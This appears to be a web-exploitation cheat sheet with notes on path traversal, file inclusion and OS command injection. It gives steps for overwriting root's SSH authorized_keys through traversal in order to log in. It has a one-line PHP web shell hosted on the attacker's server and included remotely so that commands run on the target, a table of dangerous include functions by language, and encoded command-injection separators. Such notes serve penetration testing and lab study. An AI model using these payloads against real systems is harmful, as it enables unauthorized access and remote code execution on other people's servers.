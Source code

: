 - With Burp, try testing directory traversal by modifying the file's name. If the response includes the modified pathname, then it's a good sign that it worked, though it could've just sanitized it internally.

- If this works, then try to blindly overwrite write in the database, such as the ssh key, and then ssh in:

```bash
kali@kali:~$ ssh-keygen
kali@kali:~$ cat keyname.pub > authorized_keys
```

Then, use the method as told above on the path "../../../../../../../root/.ssh/authorized_keys" or "/home/www-data/.ssh/authorized_keys", noting that you can try a username instead or "~/.ssh/authorized_keys" or "%USERPROFILE%\.ssh\authorized_keys" for Windows. If you can read /etc/passwd, then adjust to the names. Make sure to delete the known_hosts file if you have used the key with another machine. I assume that you can also just create a new one to use without deleting the file.

#### File Inclusion Functions

```bash
#              Read Content | Execute | Remote URL
## PHP 			
include()/include_once() 	Y 	Y 	Y
require()/require_once() 	Y 	Y 	X
file_get_contents() 	    Y 	X 	Y
fopen()/file() 	            Y 	X 	X
## NodeJS 			
fs.readFile() 	            Y 	X 	X
fs.sendFile() 	            Y 	X 	X
res.render() 	            Y 	Y 	X
## Java 			
include 	                Y 	X 	X
import 	                    Y 	Y 	Y
## .NET 			
@Html.Partial() 	        Y   X   X
@Html.RemotePartial() 	    Y 	X 	Y
Response.WriteFile() 	    Y 	X 	X
include 	                Y 	Y 	Y
```

#### Remote URL ^^ -> Host Your Own Webshell

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server 80 #	Host web shell
/index.php?language=http://$myip/shell.php&cmd=id #	Include remote PHP web shell
```

#### Try to Intercept Inject Username with Reset Password Functionality

#### OS Command Injection

Commands.

```bash
; 	%3b #	Both
\n 	%0a #	Both
& 	%26 #	Both (second output generally shown first)
| 	%7c #	Both (only second output is shown)
&& 	%26%26 #	Both (only if first succeeds)
|| 	%7c%7c #	Second (only if first fails)
`command` 	%60%60 #	Both (Linux-only)
$(command) 	%24%28%29 #	Both (Linux-only)
```
